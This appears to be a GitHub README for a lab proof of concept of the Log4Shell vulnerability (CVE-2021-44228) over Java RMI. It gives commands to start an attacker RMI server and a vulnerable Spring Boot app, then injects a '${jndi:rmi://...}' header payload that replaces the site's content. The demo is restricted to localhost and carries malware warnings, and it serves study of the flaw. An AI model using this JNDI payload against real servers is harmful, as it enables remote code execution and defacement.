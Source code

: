 A minor change to the forked original:
1. Getting it to work
2. Getting it to work on a Linux VM with JDK 8
3. Limiting it to open its ports localy only

This code may contain malware and is known to contain vulnerabilities. 

Use at your own risk - if you use it, be advised to do that in a VM  - discard the VM after use.

# log4shell-rmi-poc
A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
<br/>
It uses Log4j 2.5.7 from spring-boot-starter-log4j2


## Requirements:

Tested with Java 8 (JDK 1.8.0_25) and Java 11 (JDK 11.0.1)

## How to run the POC

### 1. Clone the repo:
```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd Log4jshell_rmi_server

./startRmiServer.sh 
```

You should get something like this:

![rmi server](./rmi_server.png)


### 3. Start the vulnerable Log4j application (here a spring boot application)

In a new Terminal 

```bash
cd vulnerabel_log4j_app

./startVulnerableService.sh
```


### 4. Get the original site which is in vulnerabel_log4j_app/web

```bash

curl 'http://localhost:8080/web'
```
The original website is returned.


### 5. Inject a vulnerable JNDI over the "User-Agent" header 

```bash

curl 'http://localhost:8080/hello' --header 'Accept-Version: ${jndi:rmi://127.0.0.1:1099/WannaCry}'
```

The website at vulnerabel_log4j_app/web gets updated with the site from Log4jshell_rmi_server/web

Note: to protect against real exploitation, this must be done from a client located at 127.0.0.1.

### 6. Get the malicious site from vulnerabel_log4j_app/web

```bash

curl 'http://localhost:8080/web'
```

The malicious website is returned.



## References 
https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
<br>
https://www.lunasec.io/docs/blog/log4j-zero-day/
